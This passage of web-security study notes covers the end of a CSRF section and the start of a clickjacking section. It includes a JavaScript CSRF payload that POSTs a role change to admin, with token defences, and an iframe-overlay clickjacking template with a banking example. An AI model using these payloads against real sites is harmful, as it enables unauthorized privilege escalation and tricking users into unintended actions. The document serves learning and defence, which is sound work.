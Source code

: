 -JSon and JS combined

   ```javascript
	<script>
	var xhr \= new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	xhr.setRequestHeader("Content-Type", "text/plain");
	//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	//xhr.setRequestHeader("Content-Type", "multipart/form-data");
	xhr.send('{"role":admin}');
	</script>
   ```

#### How to prevent them 

-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.


## Clickjacking

Clickjacking is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

Example (from imperva.com) : 
1.  The attacker creates an attractive page which promises to give the user a free trip to Tahiti.
2.  In the background the attacker checks if the user is logged into his banking site and if so, loads the screen that enables transfer of funds, using query parameters to insert the attacker’s bank details into the form.
3.  The bank transfer page is displayed in an invisible iframe above the free gift page, with the “Confirm Transfer” button exactly aligned over the “Receive Gift” button visible to the user.
4.  The user visits the page and clicks the “Book My Free Trip” button.
5.  In reality the user is clicking on the invisible iframe, and has clicked the “Confirm Transfer” button. Funds are transferred to the attacker.
6.  The user is redirected to a page with information about the free gift (not knowing what happened in the background).


![alt CJ example](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/Clickjacking.png.webp)

#### Some examples

- Basic clickjacking with CSRF token protection

	1. Construct a page looking like : 

	```html
		<style>  
		 iframe {  
		 position:relative;  
		 width:$width\_value;  
		 height: $height\_value;  
		 opacity: $opacity;  // Set opacity to make the button transparent
		 z-index: 2;  
		 }  
		 div {  
		 position:absolute;  
		 top:$top\_value;  // Change this to fully cover the baiting action
		 left:$side\_value;  // Change this to fully cover the baiting action
		 z-index: 1;  
		 }  
		</style>  
		<div>Test me</div>  
		<iframe src="$url"></iframe>
	```
	